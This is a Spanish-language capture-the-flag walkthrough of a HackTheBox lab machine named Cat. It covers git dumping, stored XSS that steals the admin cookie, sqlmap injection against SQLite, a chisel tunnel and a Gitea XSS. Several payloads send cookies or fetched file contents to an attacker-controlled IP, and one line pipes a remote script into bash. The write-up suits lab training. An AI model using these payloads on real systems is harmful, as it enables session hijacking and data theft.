

# Reconocimiento 

Como todo tiene un principio a si también esta maquina por ende empecemos enumerando puertos y también verifica que si tenemos conexión a ella:
```bash
> ping -c 2 10.10.11.53

PING 10.10.11.53 (10.10.11.53) 56(84) bytes of data.
64 bytes from 10.10.11.53: icmp_seq=1 ttl=63 time=67.6 ms
64 bytes from 10.10.11.53: icmp_seq=2 ttl=63 time=67.7 ms
```

El ttl es de 63 lo que nos indica que es una maquina Linux recordad que en si debería de ser de 62, pero HTB tiene un intermediario :

Y también recuerda modificar tu archivo /etc/hosts para que pueda resolver la pagina 


La IP de la maquina que nos da HTB es la siguiente `10.10.11.53`

Usando Nmap encontraremos que puertos están abiertos y que tipo de servicios están corriendo por estos mismos 

```bash 
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.53 -oG Ports
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 19:48 CST
Initiating SYN Stealth Scan at 19:48
Scanning 10.10.11.53 [65535 ports]
Discovered open port 22/tcp on 10.10.11.53
Discovered open port 80/tcp on 10.10.11.53
Completed SYN Stealth Scan at 19:48, 20.99s elapsed (65535 total ports)
Nmap scan report for 10.10.11.53
Host is up, received user-set (0.15s latency).
Scanned at 2025-02-27 19:48:22 CST for 20s
Not shown: 39572 closed tcp ports (reset), 25961 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

```bash 
# Nmap 7.94SVN scan initiated Thu Feb 27 20:54:05 2025 as: nmap -sCV -p22,80 -oN PortsInfo 10.10.11.53
Nmap scan report for cat.htb (10.10.11.53)
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Best Cat Competition
| http-git: 
|   10.10.11.53:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Cat v1 
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 27 20:54:16 2025 -- 1 IP address (1 host up) scanned in 11.06 seconds
```

El reconocimiento nos da el resultado de dos puertos abiertos: 22(ssh) y 80(http), Tenemos una pagina web por Apache, pero algo interesante es que en el puerto 80 tenemos la información de 
-> http-git: ,si no se ha configurado bien podemos clonar el repositorio de toda la web y con ende su código fuente 

Podemos ocupar el mismo Nmap para saber que hay dentro de la carpeta .git:

```bash
❯ nmap --script http-enum -p80 10.10.11.53 -oN WebFuzzing
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-01 13:04 CST
Nmap scan report for cat.htb (10.10.11.53)
Host is up (0.068s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /.git/HEAD: Git folder

Nmap done: 1 IP address (1 host up) scanned in 17.25 seconds
```


# Clonando el repositorio 

Bien generalmente sabemos que existe una carpeta HEAD dentro de .git pero no sabemos si existen mas archivos afuera de esta misma, en este caso clonarlo por wget no servirá, entonces usaremos un script en Python, que se llama `git-dumper`

Pero en mi caso que uso ParrotOS necesitare crear un entorno virtual donde por medio de pip install pueda instalar esta herramienta, si este no es tu caso, y puedes hacer pip install git-dumper sin problema salta estos pasos  

### Creación de entorno virtual para git-dumper 

```bash
python3 -m venv nombre_carpeta # Make envaeroment

cd  nombre_de_tu_entorno/bin/ 

source activate #activate your envaeroment

deactivate #off envaeroment
```

Una vez con el entorno virtual instalaremos el `git-dumper`

```python
pip install git-dumper
```


### Git-dumper

Dumpear la pagina usaremos git-dumper (crea primero una carpeta y después entra a ella), y ejecuta el siguiente comando:

```bash
git-dumper http://cat.htb/.git/ un_directorio 
```

Podemos ver la estructuras de las carpetas y tenemos varios archivos y a primera vista nos llama la atención dos de ellos, `admin.php` y  `config.php`


Después de ver varios archivos tenemos algo muy importante en el archivo de join.php , este es vulnerable a un ataque XSS y el accept_cat.php es vulnerable a una SQLI

Este será nuestro camino

- Explotar el XSS en el la sección de ``Join`` (registrarse)
- Explotar el SQLI en ``accept_Cat.php ``


# Visitando a Cat (XSS)

Cuando entramos a la pagina de Cat podemos ver que la pagina se basa en una votación para Gatos, pero iremos al grano, el XSS ocurre en el formulario de Join que sirve para registrarnos, en especifico son los campos de `username` y `password`, por que no sanitizan la entrada del usurario, pero para que funcione de manera correcta este será el procedimiento  

- Crearemos una cuenta donde el nombre del usuario y de la contraseña sea una etiqueta 
	script las cuales robaran la cookie de sección(Posiblemente el administrador)

- Entraremos a la pagina con el usuario que creamos anteriormente

- Y añadiremos un nuevo gato para la votación 

Algo importante a considerar es que la pagina tiene reglas establecidas por el CORS que no permiten XMLHttpRequest de JS por lo cual usaremos el siguiente script: 

```js
<script>document.location='http://10.10.X.X:PORT/?c='+document.cookie;</script>
```

Esta alternativa no infringe las normas del CORS pero cuando el usuario la ve, lo redirige y es mucho mas ruidoso, así que ten cuidado.


Nos pondremos en escucha con un servidor de Python 

```bash
python3 -m http.serve 443
```

Creamos a un Gato en la parte de `Contest`(15kg un gato, esta diabético xd )


Después de unos segundos obtendremos la cookie de sección del usuario administrador 


Modificaremos nuestra cookie:


Y cuando actualicemos  podremos ver el panel del usuario administrador, el cual tiene una nueva sección llamada Admin, en esta misma tenemos el gato que mandamos 


# SQLite Inyection 

Siendo administrador seguiremos con el siguiente paso 
- Realizar la SQLI

De los archivos que obtuvimos recuerda que el archivo de accept_cat es vulnerable a SQLI 
```php

if (isset($_POST['catId']) && isset($_POST['catName'])) {
            $cat_name = $_POST['catName'];
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
            $pdo->exec($sql_insert);

```

en la parte de 
```php
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
```

Por lo cual usaremos SQLmap para el ataque, para ello copiaremos la petición que se hace al dar clic en el botón de aceept en el aparatado de ``Admin``


Y la guardaremos en un archivo de texto, en mi caso lo llamare req.txt para después ejecutar este comando de sqlmap

```bash 
sqlmap -r req.txt -p catName --level=5 --risk=3 --tables --dump --dbms=sqlite --threads 10
```

Después de un tiempo nos listara el numero de tablas(4) y como se llama cada una de ellas, recuerda SQLite no usa varias DB solo existe una, y dentro de ella están todas las tablas, por ello no es posible que encontremos una inyección que nos muestre mas bases de datos 


Bien una vez tengamos el nombre de las tablas iremos por la tabla ``users``

```bash
sqlmap -r req.txt -p catName --level=5 --risk=3 --dbms=SQLite -D SQLite_masterdb -T users --dump --threads 10
```

Tenemos el id, email, password(hash) y username 


Toca desencriptar pero podemos contar que cada hash tiene una longitud de 33, lo que nos hace pensar que es md5 


Lo podemos hacer desde una pagina web para decodificar el hash y como vemos si es MD5


# Dentro del servidor 
## Rosa Cat.htb
Con la contraseña obtenida nos conectaremos por ssh con el usuario rosa y su contraseña correspondiente  


 Antes de buscar como elevar nuestro privilegio, pondremos este comando en la consola para que las funciones como Crtl + L funcionen 

```bash 
export TERM=xterm
```


Si buscas por los log de Apache en /var/log/apache2/ encontraras esta información que pertenece al usuario Axel 


es de una longitud de 21 por ende no es md5 parece ser mas una contraseña normal, la cual resulta ser la contraseña real para el usuario axel 
## axel Cat.htb

Con sus credenciales nos conectaremos y buscaremos como elevar privilegios 


Igual que antes aplicaremos este comando para la terminal 

```bash
export TERM=xterm
```

Y tenemos la primera FLAG


Dentro listaremos los procesos que se están ejecutando a través de los puerto internos de la maquina, utilizaremos `netstat`

```bash 
netstat -net 2>&1
```

Los resultado indican que el usuario root(0) esta ejecutan 7 servicios:


De todos estos servicios, el que nos interesa es `3000` y para poder verlo usaremos `chisel` por que por `ssh` no permite la conexión(en mi caso)


## Chisel axel

Descargaremos el archivo de chisel desde el GitHub ya que el firewall no permite `git clone` ni tampoco `curl`, descarga el amd64.gz



Si tu no tienes chisel en tu maquina solo descárgalo e instálalo usando :
```bash
curl https://i.jpillora.com/chisel! | bash
```

Después lo compartiremos por medio de `scp` a la carpeta  `tmp`

```bash
scp chisel_1.10.1_linux_amd64.gz axel@10.10.11.53:/tmp
```


y podremos verlo en esa ruta que especificamos (tmp)


Después lo descomprimiremos, le daremos permisos de ejecución e iniciaremos el túnel

En nuestra Maquina :
```bash
chisel server -p 5679 --reverse
				#Port_Random or free
```


En la maquina Cat.htb:
 ```bash
 ./chisel_1.10.1_linux_amd64 client 10.10.16.4:5679 R:3000:127.0.0.1:3000
									#YourIP:Port chisel R:PortServiceCat.htb  
```


## GITea (XSS)
Y una vez tengamos el servicio a través de chisel, por nuestro localhost en el puerto 3000, tendremos el servicio de GITEA que es una especie de Git pero de manera local para los repositorios


Tenemos un Login el cual podemos entrar con las mismas credenciales del usuario `Axel`


### Información crucial

AQUI algo importante cuando revisamos la carpeta de /var/mail encontramos un archivo de correo de axel 


En resumen dice que están planeando lanzar nuevos servicios WEB y si queremos podemos hacer un repositorio de GITea y mandárselo al usuario jobert para que lo revise 

Pero también tenemos una dirección URL para revisar un proyecto de gestión de empleados que están creando, al cual no podemos acceder nosotros pero el link es el siguiente 

```url

http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md

```

La versión de GITea que tenemos es la 1.22.0 la cual es vulnerable a un XSS en la parte de la descripción del repositorio asi que con esto en mente tenemos que crear un nuevo repositorio, poner un script de JS en la descripción, mandarlo al usuario jobert y robar su cookie de sección 


Sabiendo esto crearemos un nuevo repositorio 


Y en la descripción pondremos el script JS 


```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.x.x:443/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

La explicación de este JS es:

- Hace una solicitud `fetch()` a `http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md` para obtener el contenido del archivo README.md 
- Cuando recibe la respuesta, la convierte a texto con `response.text()`
- Luego toma ese texto y:
    - Lo codifica con `encodeURIComponent()`
    - Lo decodifica con `unescape()`
    - Lo codifica en base64 con `btoa()`
    - Lo codifica nuevamente con `encodeURIComponent()`
- Envía este dato procesado a `http://10.10.X.X:443/?d=` (un servidor Python que tenemos ejecutando)

Una ves con eso echo, crea un archivo cualquiera dentro del repositorio para que la descripción se vea


Y le mandaremos el email a jobert para que lo vea 

```bash 

echo -e "Subject: Test Email\n\nHello, check my repo in http://localhost:3000/axel/New" | sendmail jobert@cat.htb
```


Bingo tenemos una respuesta codificada del archivo README.md


OK una vez tengamos esto procederemos a decodificarlo con este script de Python 
```python

import base64
import urllib.parse

def decode_xss_data(encoded_data):
    step1 = urllib.parse.unquote(encoded_data)  # Deshacer encodeURIComponent
    step2 = base64.b64decode(step1)  # Deshacer btoa
    try:
        # Intentar decodificar como UTF-8
        step2_str = step2.decode('utf-8')
    except UnicodeDecodeError:
        # Si falla, tratarlo como binario
        step2_str = step2.decode('latin-1')
    step3 = urllib.parse.unquote(step2_str)  # Deshacer encodeURIComponent
    
    return step3

# Ejemplo de uso
encoded_data = "your_data"
decoded = decode_xss_data(encoded_data)
print(decoded)
```

y tendremos como resultado este mensaje 

``` txt

# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
```

Ok esto no tiene nada que nos ayude, bien intentaremos con cosas basicas, el sitio esta hecho en php, puede que dentro de este repo exista un index.php y es lo que intentaremos 

```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.X.X:443/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

Y tenemos el index.php codificado


Usaremos de nuevo el decoder.py para decodificar el hash y obtenemos estas credenciales del usuario admin


## ROOT 

Que nos sirven para el usuario root 


Cat is pwend


